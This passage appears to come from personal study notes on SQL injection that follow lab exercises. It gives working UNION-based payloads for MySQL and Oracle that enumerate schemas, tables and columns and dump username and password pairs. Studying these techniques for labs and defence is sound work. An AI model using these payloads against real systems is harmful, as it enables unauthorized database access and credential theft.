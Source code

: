 You have the database, you have the table now you want to know what columns exists.

```mysql
...' union select "test",group_concat(column_name) from information_schema.columns where table_schema='login' and table_name='users'-- -
```

### 5. Obtain the data

Finally you see the user and password fields, you're fired up to see the data, you just have to run this query:

```mysql
...' union select "test",group_concat(username,":",password) from login.users-- -
```

If the database is the one that is running you don't have to indicate the name of database(login).

## Oracle

If you're dealing with a Oracle database you see that union select x,x give an error, this is because in Oracle you always have to reference a table.

```oracle
...' union select 'a','b' from dual-- -
```

For obtain the version you can use this query:
```oracle
...' union select 'a',banner from v$version-- -
```

# SQL injection attack, listing the database contents on non-Oracle databases

Do the basic SQLi, check with a quote if is vulnerable, use order by to discver the columns, discover the databases,tables,column and the password of administrator user.

# SQL injection attack, listing the database contents on Oracle

When you want to extract or obtain information in a Oracle database you have to follow the same methodology but with another syntaxis, you can follow some Cheatsheet.

First of all check if is vulnerable, use the quote.
1. Then use order by to check the columns.
2. Use union select but you see that give you an error, with numbers, with null, with strings... You have to indicate the dual table.

```
' union select 'a','b' from dual-- -
```

3. In Oracle you only have one Database instance, then you have to obtain the tables.

```
' union select NULL,table_name from all_tables-- -
```
